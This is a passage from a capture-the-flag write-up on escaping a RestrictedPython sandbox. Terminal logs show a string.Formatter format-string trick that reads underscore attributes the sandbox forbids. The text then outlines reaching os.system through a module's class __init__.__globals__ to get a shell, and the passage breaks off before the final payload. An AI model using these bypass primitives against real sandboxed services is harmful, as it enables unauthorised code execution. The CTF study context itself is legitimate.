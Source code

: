 So, we actually have access! Let's try a couple string formats:

```log
nikos@ctf-box:~$ python main.py
Well, well well. Let's see just how poisonous you are..
> print('{0.x}'.format([]))
  File "/home/fane/.pyenv/versions/3.10.5/lib/python3.10/site-packages/RestrictedPython/Guards.py", line 267, in safer_getattr
    raise NotImplementedError(
NotImplementedError: Using format() on a str is not safe.

nikos@ctf-box:~$ python main.py
Well, well well. Let's see just how poisonous you are..
> formatter = string.Formatter(); x=formatter.format("{0.ascii_lowercase}", string); print(x)
abcdefghijklmnopqrstuvwxyz

nikos@ctf-box:~$ python main.py
Well, well well. Let's see just how poisonous you are..
> formatter = string.Formatter(); x=formatter.format("{0.Formatter.__init__}", string); print(x)
<slot wrapper '__init__' of 'object' objects>

nikos@ctf-box:~$ python main.py
Well, well well. Let's see just how poisonous you are..
> print(string.Formatter.__init__)
  File "/home/fane/.pyenv/versions/3.10.5/lib/python3.10/site-packages/RestrictedPython/compile.py", line 214, in compile_restricted
    raise SyntaxError(result.errors)
SyntaxError: ('Line 1: "__init__" is an invalid attribute name because it starts with "_".',)
```

And it actually worked! We have a string format vulnerability! And in this way, we also found a primitive that allows us to access attributes with the underscore (`_`).

### Exploit generation

The next step is to figure out how to access the `os` module in order to reach the `system` function and pop a shell. Here is a reminder of the available globals that we have:

```python
['__builtins__', '_getattr_', '_getitem_', '_getiter_', '_iter_unpack_sequence_', '_print', '_print_', '_unpack_sequence_', '_write_', 'dir', 'enumerate', 'frozenset', 'math', 'random', 'reorder', 'same_type', 'set', 'string', 'test', 'whrandom']
```

So, what we do is that we manually inspect the modules recursively until we find one that imports `os`. Then we check for available classes and access the `os` module via `module.class.__init__.globals`, as `os` has been imported in the current module. For example, `random` imports `os` and defines the class `Random` which serves our purpose:
